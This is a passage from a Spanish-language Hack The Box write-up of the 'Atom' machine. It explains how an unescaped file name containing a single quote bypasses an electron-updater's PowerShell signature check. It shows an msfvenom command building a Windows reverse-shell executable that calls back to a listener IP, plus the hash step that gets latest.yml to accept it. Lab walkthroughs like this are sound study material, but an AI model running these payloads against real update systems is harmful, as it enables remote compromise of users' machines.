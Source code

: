 ![340google_signature_code_comparation](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/atom/340google_signature_code_comparation.png)

> **Tomada del propio artículo**.

Nos indica que en cada actualización, el servidor o aplicación va a estar buscando un archivo llamado `latest.yml`, en él estaría el nombre, ruta y hash relacionado con el programa, básicamente la definición de lo que queramos actualizar...

En el código vemos al inicio una ejecucion llamativa, que llevada a la acción tomaría estos valores (por ejemplo):

> ```powershell
> powershell.exe -NoProfile -NonInteractive -InputFormat None -Command "Get-AuthenticodeSignature 'C:\Users\carlitos\AppData\Roaming\vulnerable_app\__update__\new_update.exe' | ConvertTo-Json -Compress"
> ```

Donde `C:\Users....exe` es un valor tomado de la variable `tempUpdateFile`, acá es donde entramos nosotros como atacantes (:

Como la variable `tempUpdateFile` no tiene ningún filtro o cuenta con algún escape, podemos forzar un bypass a la validación de `publisherName` y `Common Name` mediante un error en la ejecucion del script.

Esto de una manera muy sencilla, solo debemos crear un binario con una `'` en el nombre y esto hará que el programa falle, peeeero para que sea ejecutado necesitamos generar un hash que se relacione con el programa creado, así logramos que el actualizador tome nuestro programa como legítimo.

Pues démosle, generemos el archivo `latest.yml`, el binario malicioso yyyy el hash de ese binario:

...

### (FAIL) <u>latest.yml</u>, bin malicioso y hash [⌖](#expl-f-yml-bin-hash) {#expl-f-yml-bin-hash}

Siguiendo el artículo y sus pocs tendríamos:

**try\'now.exe (binario malicioso):**

Generaremos un binario que a la hora de ejecutarse nos lance una reverse Shell, ayudémonos de [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) para esto:

```bash
❱ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.103 LPORT=4433 -f exe -o try\'now.exe
```

```bash
❱ file "try'now.exe"
try'now.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```

Ahora generamos el hash identificador (el propio blog nos provee de esta línea):

**sha512 hash:**

```bash
❱ shasum -a 512 try\'now.exe | cut -d " " -f 1 | xxd -r -p | base64 | tr -d '\n'
0Wxg/xq3XPmrHevFPBwR4aSmnc8b+5gaKB9HuEAZcBXghS2MaDblK3lRPOpCEMiqe5wFI2ZxMQ7Jc7M2JSTF8Q==
```
